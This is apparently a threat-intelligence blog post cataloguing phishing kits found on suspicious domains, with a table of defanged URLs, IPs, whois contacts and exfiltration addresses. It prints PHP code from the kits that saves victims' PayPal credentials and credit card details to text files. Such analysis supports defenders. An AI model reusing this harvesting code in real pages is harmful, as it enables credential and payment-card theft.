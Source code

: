 # Crap I Found On The Internet (2020/10/13)

Hey folks, here's another mini-update, this time with some more kits i found when combing through more domains. First, i'll have a table with the hosting information and whatnot, then below that will be a block of text with the sha256 hashes of the zip files in question.

I acquired these kits earlier in the day, so by the time i was off work and had time to go get the IP addresses and whois data and all that, some had stopped resolving (okay, one or two), but i managed to get what i could on those using dig and riskIQ. 

| URL                                                                                      | IP                    | Whois/SOA                            | Exfil                                                         |
| ---------------------------------------------------------------------------------------- | --------------------- | ------------------------------------ | ------------------------------------------------------------- |
| boatbookings[.]xyz/ExRobotos-OfficeV4-2020%20(1)[.]zip                                   | 111[.]90[.]150[.]71   | hostmaster@registrar-servers[.]com   | Unconfigured                                                  |
| central-14345456478834345343[.]gq/CC_LOGIN%20(1)[.]zip                                   | 101[.]50[.]1[.]53     | soa@freenom[.]com                    | Writes to text file\*                                         |
| central-14345456478834345344[.]gq/CC_LOGIN%20(1)[.]zip                                   | 101[.]50[.]1[.]53     | soa@freenom[.]com                    | Writes to text file\*                                         |
| chat[.]whastapp[.]frontalgaming[.]frontal-gaming1[.]my[.]id/Wa18Fans_FrontalGaming[.]zip | 207[.]180[.]252[.]85  | fauziponcol21@gmail[.]com            | jokergila301@gmail[.]com                                      |
| diamondgratis[.]eventfreefirenew1[.]ml/SC-DIAMOND-LEVEL-1[.]zip                          | 95[.]111[.]241[.]149  | N/A                                  | emailkalian@gmail[.]com                                       |
| evant-freefire[.]neww[.]my[.]id/DIAMOND%20FF%20GG%5BDIT%20SANTUY%5D-1[.]zip              | 192[.]210[.]219[.]168 | admin@nemesis-hostlive[.]my[.]id     | pakeemaillo@gmail[.]com                                       |
| facebookhelpcheckpoint[.]my[.]id/cgi-bin[.]zip                                           | 95[.]111[.]241[.]149  | N/A                                  | ggmild933@gmail[.]com                                         |
| join-grup[.]wa[.]buggg-eventss[.]cf/fake-login-facebook[.]zip                            | 62[.]77[.]159[.]72    | root@2zfq[.]c[.]serverhost[.]name    | Unconfigured                                                  |
| lju98[.]winaccesssecuredexxr[.]xyz/ANSUSA27julsouupdated[.]zip                           | 142[.]4[.]3[.]120     | dns@hostinger[.]com                  | none, phone number 08004049735                                |
| navadalandlop[.]xyz/godaddy%20firebase%20setup[.]zip                                     | 93[.]157[.]63[.]185   | root@root[.]com                      | logpaul895@yandex[.]com<br/>02londonsex@gmail[.]com           |
| navadalandlop[.]xyz/owa/goowa[.]zip                                                      | 93[.]157[.]63[.]185   | root@root[.]com                      | logpaul895@yandex[.]com<br/>02londonsex@gmail[.]com           |
| realrespond[.]ga/cf/Ourtime%20(2)[.]zip                                                  | 13[.]68[.]158[.]118   | soa@freenom[.]com                    | maryronda7@gmail[.]com                                        |
| realrespond[.]ga/dc/Ourtime%20(2)[.]zip                                                  | 13[.]68[.]158[.]118   | soa@freenom[.]com                    | maryronda7@gmail[.]com                                        |
| reeldealyachts[.]xyz/ExRobotos-Redirect-v4-2020%20(1)[.]zip                              | 111[.]90[.]150[.]71   | N/A                                  | N/A (just a redirection script)                               |
| sdffgewr[.]cf/amaz[.]zip                                                                 | 185[.]221[.]216[.]4   | markusm122@yahoo[.]com               | collinshofmann@outlook[.]com<br/>castilloalphonso@gmail[.]com |
| sdffgewr[.]ml/amaz[.]zip                                                                 | 185[.]221[.]216[.]4   | markusm122@yahoo[.]com               | collinshofmann@outlook[.]com<br/>castilloalphonso@gmail[.]com |
| servicefax1[.]tk/365/redirect[.]zip                                                      | 103[.]153[.]182[.]126 | root@103-153-182-126[.]cprapid[.]com | N/A (just a redirection script)                               |
| terta-71[.]cf/wells/Wells[.]zip                                                          | 162[.]241[.]117[.]240 | soa@freenom[.]com                    | jim6601@outlook[.]com<br/>speaker6692@gmail[.]com             |

#### * writes to either `____________PAYPAL_________.txt` or `___________________________C^C________________________.txt` (see below)

```
# log4.php
$file = "____________PAYPAL_________.txt";
$paypalmail = $_POST['paypalmail'];
$pwpaypal = $_POST['pwpaypal'];
$ip = $_SERVER['REMOTE_ADDR'];


$handle = fopen($file, 'a');
fwrite($handle, "xxxxPAYPALxxxx");
fwrite($handle, "\n");
fwrite($handle, "::  EMAIL     ::   ");
fwrite($handle, "$paypalmail");
fwrite($handle, "\n");
fwrite($handle, "::  PASS      ::   ");
fwrite($handle, "$pwpaypal");
fwrite($handle, "\n");
fwrite($handle, "::  IP        ::   ");
fwrite($handle, "$ip");
fwrite($handle, "\n");
fwrite($handle, "xxxxPAYPALxxxx");
fwrite($handle, "\n");
fclose($handle);
```

```
# log2.php & log3.php:
$file = "___________________________C^C________________________.txt";
$firstName = $_POST['firstName'];
$creditCardNumber = $_POST['creditCardNumber'];
$month = $_POST['month'];
$year = $_POST['year'];
$csc = $_POST['csc'];
$street = $_POST['street'];
$city = $_POST['city'];
$state = $_POST['state'];
$zip = $_POST['zip'];
$country = $_POST['country'];
$ip = $_SERVER['REMOTE_ADDR'];
$today = date("F j, Y, g:i a");


$handle = fopen($file, 'a');
fwrite($handle, "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx");
fwrite($handle, "\n");
fwrite($handle, "::  NAMA      ::   ");
fwrite($handle, "$firstName");
fwrite($handle, "\n");
fwrite($handle, "::  CREDIT    ::   ");
fwrite($handle, "$creditCardNumber");
fwrite($handle, "\n");
fwrite($handle, "::  BULAN     ::   ");
fwrite($handle, "$month");
fwrite($handle, "\n");
fwrite($handle, "::  TAHUN     ::   ");
fwrite($handle, "$year");
fwrite($handle, "\n");
fwrite($handle, "::  CSC       ::   ");
fwrite($handle, "$csc");
fwrite($handle, "\n");
fwrite($handle, "::  POS       ::   ");
fwrite($handle, "$zip");
fwrite($handle, "\n");
fwrite($handle, "::  NEGARA    ::   ");
fwrite($handle, "$country");
fwrite($handle, "\n");
fwrite($handle, "::  IP        ::   ");
fwrite($handle, "$ip");
fwrite($handle, "\n");
fclose($handle);
```

Going to work on getting the samples uploaded to [malshare](https://malshare.com) for researchers to take a look if they want (since not everyone can afford virustotal enterprise)

[Return to index](/)
